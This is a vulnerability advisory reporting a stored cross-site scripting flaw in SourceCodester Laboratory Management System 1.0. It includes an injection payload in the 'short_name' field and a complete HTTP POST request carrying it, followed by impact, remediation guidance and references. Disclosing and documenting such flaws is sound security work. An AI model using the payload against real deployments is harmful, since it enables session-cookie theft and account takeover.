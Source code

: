 Stored Cross-Site Scripting Vulnerability in SourceCodester Laboratory Management System 1.0 :

Vendor: Sourcecodester
Product: Laboratory Management System 1.0
Product URL: Laboratory Management System 1.0
Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Laboratory Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "System Short Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code. Issue Details

Vulnerability Name: Stored XSS in System Short Name
Severity: High
Affected URL: php-lms/admin/?page=system_info
Affected Parameter: System Short Name
HTTP Method: POST
Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "System Short Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "System Short Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies. Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/php-lms/admin/?page=system_info

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the System Short Name parameter as shown below and send the request to the server.

Content-Disposition: form-data; name="short_name"

"><button onClick="alert('xss')">

In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1IEq_NAREAd9lb_X48aqn59SR4Nm6AUMT/view?usp=drive_link
https://drive.google.com/file/d/1OhByD6Hey9csAp9cMvIJ_EE-A20CFlak/view?usp=drive_link

 Payload:

Content-Disposition: form-data; name="short_name"

"><button onClick="alert('xss')">

Request:

POST /php-lms/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------3651195747476100243731088427
Content-Length: 643
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lms/admin/?page=system_info
Cookie: PHPSESSID=mmoofhiuab699hj8pkoi61nmnr
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------3651195747476100243731088427
Content-Disposition: form-data; name="name"

Admin
-----------------------------3651195747476100243731088427
Content-Disposition: form-data; name="short_name"

"><button onClick="alert('xss')">
-----------------------------3651195747476100243731088427
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------3651195747476100243731088427
Content-Disposition: form-data; name="cover"; filename=""
Content-Type: application/octet-stream


-----------------------------3651195747476100243731088427--


Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites. Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed. References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/ Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the System Short Name parameter of php-lms/admin/?page=system_info, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.